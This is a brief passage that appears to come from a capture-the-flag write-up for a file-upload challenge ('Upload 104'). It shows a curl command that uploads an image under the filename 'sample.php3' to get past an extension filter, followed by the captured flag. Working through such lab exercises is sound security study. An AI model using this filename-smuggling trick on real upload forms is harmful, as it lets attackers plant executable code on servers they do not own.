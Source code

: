# Upload 104
Same thing but this time:    
``curl -F "file=@sample.png;filename=sample.php3" chal8.hackademy.ctf/upload4.php``

``FLAG-E287wMaSbdf9hQh7jyYxxq08mhjJmJBt``
